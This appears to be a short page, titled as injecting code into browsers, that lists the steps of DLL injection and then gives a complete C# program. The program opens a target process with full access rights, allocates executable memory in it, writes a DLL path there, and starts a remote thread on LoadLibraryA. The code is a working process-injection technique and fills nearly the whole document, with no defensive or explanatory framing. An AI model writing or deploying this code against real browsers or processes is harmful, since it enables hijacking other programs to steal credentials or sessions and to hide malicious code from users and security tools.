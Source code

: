 ### Injecting Code into Browsers

#### Steps for DLL Injection
1. **Open Process**: Obtain a handle to the target process.
2. **Allocate Memory**: Allocate memory in the target process.
3. **Write Memory**: Write the payload (e.g., DLL path) into the allocated memory.
4. **Create Remote Thread**: Use `CreateRemoteThread` to execute the payload in the target process.

#### Code Example in C# for DLL Injection
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    private static extern IntPtr OpenProcess(int processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    private static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    private static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    static void Main(string[] args)
    {
        int processId = 1234; // Replace with target process ID
        string dllPath = "C:\\path\\to\\your.dll";

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
        IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), 0x3000, 0x40);

        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocMemAddress, Encoding.Default.GetBytes(dllPath), (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), out bytesWritten);

        IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
        CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddr, allocMemAddress, 0, IntPtr.Zero);
    }

    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    private static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
    private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
```
